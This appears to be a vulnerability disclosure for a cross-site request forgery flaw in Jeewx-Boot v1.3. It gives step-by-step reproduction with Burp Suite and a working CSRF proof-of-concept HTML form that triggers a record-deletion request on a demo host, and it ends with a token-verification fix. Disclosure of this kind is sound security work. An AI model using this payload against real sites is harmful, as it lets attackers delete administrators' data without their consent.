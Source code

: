 ## Information

```c
Exploit Title:Jeewx-Boot-v1.3-Cross-site request forgery(CSRF)
Exploit date:01.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://github.com/zhangdaiscott/jeewx-boot
Affect Version:Jeewx-Boot-v1.3
Description:There is CSRF vulnerability in jeewx-boot-v1.3. Attackers can construct a malicious page and cheat administrator users to access it, thus causing malicious payload to be triggered.
```

## How to Exploit

Step 1：Add a record

![img](img/1.png)

Step 2：Then delete the record and use burpsuite to capture the package

![img](img/2.png)

Step 3：After that, use burpsuite to construct CSRF exp

![img](img/3.png)

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://demo.jeewx.com/businesshall/back/wxActBusinesshallRegistration/doDelete.do">
      <input type="hidden" name="id" value="ff80808179bd77900179c66b96e60266" />
      <input type="hidden" name="&#95;" value="1622531610993" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Step 4：Drop the burpsuite request packet and refresh the page to ensure that the record still exists

![img](img/4.png)

Step 5：After accessing the payload in the browser, you can see the successful execution

![img](img/5-1.png)

![img](img/5.png)

Step  6：After refreshing the page, it is found that the record has been successfully deleted

![img](img/6.png)

## Suggestion

Using token to verify

## Reference

https://github.com/zhangdaiscott/jeewx-boot

